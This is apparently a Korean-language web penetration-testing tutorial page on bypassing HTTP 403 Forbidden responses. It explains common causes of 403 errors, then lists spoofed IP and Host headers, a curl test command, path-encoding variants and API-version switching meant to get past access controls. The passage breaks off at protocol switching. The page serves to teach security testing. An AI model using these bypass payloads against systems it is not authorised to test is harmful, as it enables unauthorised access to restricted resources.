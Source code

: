 ```yaml
---
title: Security Misconfiguration
layout: default
parent: Web Penetration Test
nav_order: 2.7
description: "Web hacking"
---
```



# Bypass 403 Forbidden

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

"403 Forbidden"은 웹 서버가 요청을 거부했을 때 발생하는 HTTP 상태 코드 중 하나 입니다. 403 오류 메세지는 사용자가 요청한 리소스에 접근할 권한이 없다는 뜻을 의미 합니다. 보통 서버측에서 권한 설정을 잘못 했거나, 요청한 페이지나, 특정 파일이 특정 사용자에게만 허용되었을때 발생할 수 있습니다.

## Reasons of 403 Forbidden

403 Forbidden이 발생하는 일반적인 이유는 다음과 같습니다.

1. Not Enough Privileges (권한 부족): 서버가 해당 리소스에 대한 접근을 제한하거나, 로그인한 사용자가 접근할 수 없는 리소스를 요청했을 때 발생할 수 있습니다.

2. IP 차단: 특정 IP나 지역에서의 접근을 차단했을 때도 발생할수 있습니다.

3. WAF (Web Application Firewall)로 인한 차단: 웹 서버에 대한 다양한 공격들을 감지하면 WAF에서 403 Forbidden 응답을 반환할 수 있습니다. 

4. 봇 탐지 및 차단: 봇이 서버에 불법적으로 접근하거나 스팸, 크롤링, 디도스 등 악의적인 행동을 하게되면 403 Forbidden 오류가 발생할 수 있습니다.

5. CORS (Cross-Origin Resource Sharing): 보안상의 이유로, 웹 브라우저에서 다른 도메인에서 온 리소스에 대한 접근 제한을 할수 있습니다. 

6. 디렉토리 리스팅 차단: 디렉토리 리스팅을 허용하면 공격자가 서버의 파일 구조를 탐색할 수 있습니다. 이것을 방지하기 위해 디렉토리 리스팅 차단하는 설정을 할 수 있습니다.

7. HTTP 요청 헤더 분석: 비정상적인 HTTP 요청 헤더가 올 경우, 차단하는 경우가 있을 수 있습니다.


## 403 Bypass 방법 

### Bypassing IP and Host restriction

HTTP 헤더는 여러가지 커스텀 헤더들이 존재합니다. 다양한 WAF나 웹 어플리케이션이 커스텀 헤더들을 받는 경우도 많고 않쓰이는 헤더들을 필터링을 못하는 경우도 많습니다. 

여러 IP나 Host를 커스텀해더로 바꿀 수 있습니다.

```js
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-Host: localhost
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-Port: 80
    X-Forward-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-True-IP: 127.0.0.1
    Redirect: http://localhost
    Referer: http://localhost
    Host: localhost
```

Curl로도 해당 여러 취약점을 테스트 해볼 수 있습니다.

```js
curl -i -k -H "X-Forwarded: 127.0.0.1" https://example.com
```

### Bypassing path-base blocking

URI Path 기반으로 403 Forbidden이 발생하는 경우, 아래와 같은 리스트를 활용해 해당 URL을 나타내지만 정규식에 걸리지 않도록 경로를 우회하는 로직을 사용할 수 있습니다.

```
    localhost/path
    localhost/%2e/path
    /path%20
    /path%09
    /path%00
    /%90/path
    /%2e/path
    /path/
    /path/.
    //path//
    /./path
    /;/path
    /.;path
    //;//path
    /path..;/
    /path/..;/
    /path.json
    /path.css
    /path.html
    /path?
    /path??
    /path???
    /path?testparam
    /path#
    /path#test
```

### Changing API Version
 
API를 테스트 하는경우, 여러 API 버전들을 바꿔가면서 테스트를 해볼수 있습니다.

```
/v1/secret
/v2/secret
```

### Changing URL Protocol

때로는 https에서만 Access Control을 하는 경우가 있습니다.